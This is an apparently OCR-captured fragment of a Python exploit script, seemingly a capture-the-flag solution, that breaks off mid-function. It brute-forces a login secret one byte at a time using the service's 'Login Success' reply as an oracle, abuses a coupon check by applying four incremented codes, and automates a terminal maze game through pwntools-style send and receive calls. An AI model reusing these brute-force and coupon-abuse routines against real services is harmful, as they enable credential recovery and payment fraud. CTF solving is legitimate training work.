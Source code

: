 ``` python
    hit = bytes()
    for i in range(0x1a):
        for j in range(0x100):
            if j in [0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x20]:
                continue
            r = login(s, b"Welcome!", hit + j.to_bytes(1, 'little'))
            if b"Login Success" in r:
                hit += j.to_bytes(1, 'little')
                sys.stdout.write(f"\rhit : {hit}")
                sys.stdout.flush()
                break
        logout(s)
        it = str(i + 1).encode()
        join(s, it, it, it, i + 1)
    sys.stdout.write(f"\n")
    return hit

def apply_coupon_quadra(s, coupon):
    apply_coupon(s, coupon)
    coupon_dup = coupon[:-1] + chr(coupon[-1] + 1).encode()
    apply_coupon(s, coupon_dup)
    coupon_dup = coupon_dup[:-1] + chr(coupon_dup[-1] + 1).encode()
    apply_coupon(s, coupon_dup)
    coupon_dup = coupon_dup[:-1] + chr(coupon_dup[-1] + 1).encode()
    r = apply_coupon(s, coupon_dup)
    return r

def parse_map(data, p=0):
    # 터미널 크기 설정 (24행, 80열 등으로 설정)
    screen = pyte.Screen(80, 24)
    stream = pyte.Stream(screen)

    stream.feed(data.decode('utf-8'))

    # 화면 출력 파싱 후 'I', 'O', 'E' 위치 찾기
    positions = {'I': [], 'O': [], 'E': []}
    for row_num, row in enumerate(screen.display, start=1):
        if row_num < 4:
            continue
        for col_num, char in enumerate(row, start=1):
            if char in positions:
                positions[char].append((row_num, col_num))
    
    if p == 1:
        for line in screen.display:
            print(line)
        print(positions)
    return positions

def move(s, direction):
    for d in direction:
        s.send(d.encode())
        s.recvuntil(b"||")
        try:
            r = s.recvuntil(b"||", timeout=3)
        except TimeoutError:
            log.failure(f"game lost :(")
            exit()
    return r

def win_game(s):
    while 1:
        s.sendline(b"2")
```